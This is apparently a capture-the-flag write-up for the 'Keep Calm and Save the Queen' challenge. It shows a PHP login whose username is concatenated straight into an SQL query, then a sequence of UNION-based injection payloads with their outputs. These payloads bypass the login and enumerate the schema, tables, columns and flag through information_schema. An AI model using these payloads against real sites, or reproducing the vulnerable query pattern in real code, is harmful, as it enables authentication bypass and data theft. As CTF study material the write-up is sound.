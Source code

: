 # Haxdump : Keep Calm and Save the Queen

#### Author: ispo

We have the source. Let's look at the injection point (index.php):

    <?php
    	include("database.php");

    	if(isset($_POST['username'])) {
    	  $username = $_POST['username'];
    	  $sql = "SELECT * from users where username='$username'";
    	  $result = mysql_query($sql, $db);

    	  $row = mysql_fetch_assoc($result);

    	  if($_POST['password'] === $row['password']) {
    		session_start();
    		$_SESSION['wow'] = true;
    		echo "<h4 align='center'>User ".$row['username']." successfully logged in!</h4>";
    	  }
    	  else {
    ?>

It's obvious where the injection is. Let's register a user foo:bar and start crafting our injection:

    username=foo&password=bar					--> User foo successfully logged in!
  	username=foo' AND '1'='1&password=bar		-->  User foo successfully logged in!

Easy, isn't it? Go on.

    username=bar' UNION ALL SELECT 'foo', 'bar' -- &password=bar	--> User foo successfully logged in!


The query:

    username=bar' username=bar' UNION ALL SELECT 'ispo', 'bar'-- &password=bar
    gives: "User ispo successfully logged in!". However  user ispo is not registered.

Let's find the database first:

      	username=bar' UNION ALL SELECT (SCHEMA()), 'bar'-- &password=bar
    --> User briton successfully logged in!

Then the tables:

    username=bar' UNION ALL SELECT (SELECT GROUP_CONCAT(table_name)
    				 FROM information_schema.tables WHERE table_schema='briton'), 'bar'-- &password=bar
    --> User flags,users successfully logged in!

We'll assume that flag table has 1 column:

    username=bar' UNION ALL SELECT (SELECT * FROM flags), 'bar'-- &password=bar
    --> User D0_Y0U_H34R_TH3_P30PL3_H4X successfully logged in!

If flag table didn't had 1 column, we could get the columns as follows:

    username=bar' UNION ALL SELECT (SELECT GROUP_CONCAT(column_name)
    			FROM information_schema.columns WHERE table_name='flags'), 'bar'-- &password=bar
    --> User flag successfully logged in!
